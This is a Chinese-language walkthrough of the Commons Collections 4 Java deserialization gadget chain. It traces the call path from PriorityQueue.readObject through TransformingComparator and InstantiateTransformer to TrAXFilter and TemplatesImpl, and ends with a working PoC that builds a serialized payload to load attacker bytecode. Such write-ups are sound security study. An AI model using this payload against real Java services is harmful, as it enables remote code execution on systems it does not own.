

# CommonsCollections4 analyze

# 0x00

因为`CommonsCollections4`​除`4.0`​之外的其他版本将`InvokerTransformer`​的`Serializeble`​继承去掉了,导致`InvokerTransformer`​无法被反序列化

简述一下这条链子的基本流程和重要的点

```java
首先链尾是调用了InstantiateTransformer::transform()方法触发
然后由TransformingComparator::compare()方法调用transform()方法
再往上是PriorityQuequ::siftDownUsingComparator()方法调用了compare()方法
siftdown()方法调用了siftDownUsingComparator()方法,而siftdown()方法又是由heapify()方法触发
然后readObject()方法刚好调用了heapify()方法
```

# 0x01

关注一下这条链子的触发细节,从`PriorityQueue::readObject()`​方法开始

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

直接看`heapify()`​方法

```java
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

首先`size>>>1`​的意思是往右移一位,相当于`size/2`​,因为是以二进制数存储的,所以往右移动一位数就相当于`/2`​,而这个`size`​则表示为`PriorityQueue`​队列的长度,也就是数组的元素数量

也就是说这里的`size`​需要`>=2`​才可以执行`siftDown()`​方法

继续往下看,看到`siftDown()`​方法

```java
    private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

这里就比较简单,只要`comparator`​不为空就执行`siftDownUsingComparator()`​方法

看到`siftDownUsingComparator()`​方法

```java
    private void siftDownUsingComparator(int k, E x) {
        int half = size >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = queue[child];
            int right = child + 1;
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
                break;
            queue[k] = c;
            k = child;
        }
        queue[k] = x;
    }
```

这里接收两个参数`k`​和`x`​

因为我们最重要让他触发`comparator.compare()`​,所以这里传入的`k`​要小于`size/2`​ 也就可以触发`comparator.compare()`​方法了

这里的`k`​其实就是我们上面的`i`​也就是`(size>>>1)-1`​,所以这里是可以直接触发`comparator.compare()`​方法的

然后看到`PriorityQueue`​的构造方法`comparator`​的值是完全可控的

然后直接来到`TransformingComparator::compare()`​方法

```java
    public int compare(final I obj1, final I obj2) {
        final O value1 = this.transformer.transform(obj1);
        final O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

直接触发`transform()`​方法,控制一下`this.transformer`​的值可以直接触发到`InstantiateTransformer::transform()`​方法

然后看到`InstantiateTransformer::transform()`​方法

```java
    public T transform(final Class<? extends T> input) {
        try {
            if (input == null) {
                throw new FunctorException(
                    "InstantiateTransformer: Input object was not an instanceof Class, it was a null object");
            }
            final Constructor<? extends T> con = input.getConstructor(iParamTypes);
            return con.newInstance(iArgs);
        } catch (final NoSuchMethodException ex) {
            throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
        } catch (final InstantiationException ex) {
            throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
        } catch (final IllegalAccessException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
        } catch (final InvocationTargetException ex) {
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
        }
    }
```

这里检测传入的类是否为空的,如果不为空,则获取这个类的有参构造方法,并且传入`iArgs`​,将这个类实例化并返回

那我们就可以看到`TrAXFilter`​这个类的构造方法

```java
public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

这里比较关键的代码就是`_transformer = (TransformerImpl) templates.newTransformer();`​

这里调用了`newTransformer()`​这个方法,实际上这个方法也有一条利用链可以通过`TransletClassLoader::defineClass()`​来实现命令执行,至此`CC4`​这条链子就结束了

最后再总结补上链子的流程图和`poc`​

​​

​`PoC`​

```java
package org.example;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

/*
    PriorityQueue.readObject()
        Priority.heapify()
            Priority.siftDown()
                Priority.siftDownUsingComparator()
                    comparator.compare()
                        InstantiateTransformer.compare()
 */
public class CC4 {
    public static void main(String[] args) throws Exception{
        exp();
    }

    public static void exp() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "p1ng");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] evil = Files.readAllBytes(Paths.get("exp.class"));
        byte[][] codes = {evil};
        bytecodesField.set(templates, codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{templatesClass}, new Object[]{templates});
        Transformer[] transformer = new Transformer[] {
            new ConstantTransformer(TrAXFilter.class),instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(1);

        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator, chainedTransformer);

        serialize(priorityQueue);
        deserialize();

    }
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream oss = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oss.writeObject(obj);
    }
    public static Object deserialize() throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("ser.bin"));
        Object obj = ois.readObject();
        return obj;
    }
}
```

‍
